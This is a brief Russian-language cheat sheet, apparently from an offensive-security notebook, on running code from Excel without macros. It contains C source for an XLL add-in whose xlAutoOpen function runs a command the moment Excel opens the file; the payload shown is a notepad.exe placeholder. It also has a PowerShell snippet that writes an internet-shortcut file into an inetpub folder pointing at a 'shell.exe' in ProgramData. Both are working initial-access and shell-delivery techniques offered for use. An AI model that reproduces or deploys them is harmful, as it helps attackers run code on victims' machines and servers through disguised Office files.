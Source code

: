 # Файл для запуска в exel без макроса

https://gist.github.com/projectboot/a0308688abcb1f318a0b00b33698e782

	// Compile with: cl.exe notepadXLL.c /LD /o notepad.xll or x86_64-w64-mingw32-gcc xll.c -shared -o test.xll
	#include <Windows.h>

	__declspec(dllexport) void __cdecl xlAutoOpen(void); 

	void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
	}

	BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
					 )
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}




# Создание URL ярлыка
	--->`n - новая строка

	$shortcut = "[InternetShortcut]`nURL=c:\programdata\shell.exe"
	Set-Content -Path "c:\inetpub\testing\test.url" -value $shortcut
